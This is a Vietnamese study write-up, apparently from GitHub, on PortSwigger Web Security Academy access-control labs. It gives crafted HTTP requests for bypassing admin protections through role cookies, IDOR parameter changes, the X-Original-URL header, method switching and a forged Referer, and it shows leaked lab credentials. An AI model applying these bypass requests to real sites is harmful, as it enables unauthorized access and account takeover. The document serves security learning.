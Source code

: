 # Access control vulnerabilities and privilege escalation
Trong phần này, chúng tôi mô tả:
- Leo thang đặc quyền.
- Các loại lỗ hổng có thể phát sinh với kiểm soát truy cập(access control).
- Làm thế nào để ngăn chặn các lỗ hổng kiểm soát truy cập.


## lab

logic:

- directly access admin panel by normal user account
- directly access admin panel with unpredictable URL by normal user account
- role controlled by request parameters (cookies, ...)
- edit update account information request (add role field in a change email request, ...)
- change userid in request
- find unpredictable userid
- check redirect response
- check idor
- X-Original-URL
- change method of unauthorized request (POST -> GET)
- check multi-step process
- fake refered header

### Lab: Unprotected admin functionality

Xuất hiện: `/robots.txt`: Disallow line -> admin panel.

Từ đó vào: `/administrator-panel`: Delete carlos.

### Lab: Unprotected admin functionality with unpredictable URL

Lộ code:

```js
var isAdmin = false;
if (isAdmin) {
   var topLinksTag = document.getElementsByClassName("top-links")[0];
   var adminPanelTag = document.createElement('a');
   adminPanelTag.setAttribute('href', '/admin-8krsd4');
   adminPanelTag.innerText = 'Admin panel';
   topLinksTag.append(adminPanelTag);
   var pTag = document.createElement('p');
   pTag.innerText = '|';
   topLinksTag.appendChild(pTag);
}
```

Từ đó vào: `GET /admin-8krsd4/delete?username=carlos HTTP/1.1`

### Lab: User role controlled by request parameter

Cookie có thể sửa từ phía client

```http
GET /admin/delete?username=carlos HTTP/1.1
Host: id.web-security-academy.net
Cookie: Admin=true; session=PBGX9cSFeB9Eo2SIowHHg3QCVHGbL4wn
```

### Lab: User role can be modified in user profile

Thay id admin trong request:

```
{"email":"test@test.test", "roleid":2}
```

### Lab: User ID controlled by request parameter

Thay `carlos` trên URL:

`https://id.web-security-academy.net/my-account?id=carlos`

### Lab: User ID controlled by request parameter, with unpredictable user IDs

Lộ id carlos trong bài viết

`https://id.web-security-academy.net/my-account?id=80bf4a7b-e7f6-4d28-af58-135a2595fe8d`

### Lab: User ID controlled by request parameter with data leakage in redirect

Khi thay `carlos` trên URL nó tự chuyển 302 về `login` nhưng trong response trả về 302 lại có thông tin carlos

```html
HTTP/1.1 302 Found
Location: /login
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Connection: close
Content-Length: 3395

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>User ID controlled by request parameter with data leakage in redirect</title>
...
        <div id=account-content>
        <p>Your username is: carlos</p>
        <div>Your API Key is: sMctlBUitcILqisWH7l38Ami24XjlesY</div>    
```

### Lab: User ID controlled by request parameter with password disclosure

Password bị lộ ở html (hidden)

```html
<form class="login-form" action="/my-account/change-password" method="POST">
  <br>
  <label>Password</label>
  <input required="" type="hidden" name="csrf" value="u9ah9Jib6PtthNaJehbkBmqJ5Dae4AjM">
  <input required="" type="password" name="password" value="ls7hgceacoropfh8w2m8">
  <button class="button" type="submit"> Update password </button>
</form>
```

### Lab: Insecure direct object references

Chat box lộ password

### Lab: URL-based access control can be circumvented

Thêm header `X-Original-URL`

```http
GET /?username=carlos HTTP/1.1
X-Original-URL: /admin/delete
```

### Lab: Method-based access control can be circumvented

Thêm parameter thì sẽ ko bị redirect 

```http
GET /admin-roles?wiener&action=upgrade HTTP/1.1
Cookie: session=wienersession
```

### Lab: Referer-based access control

Thêm referer:

```http
GET /admin-roles?username=wiener&action=upgrade HTTP/1.1
Cookie: session=wienersession
Referer: https://id.web-security-academy.net/admin
```
































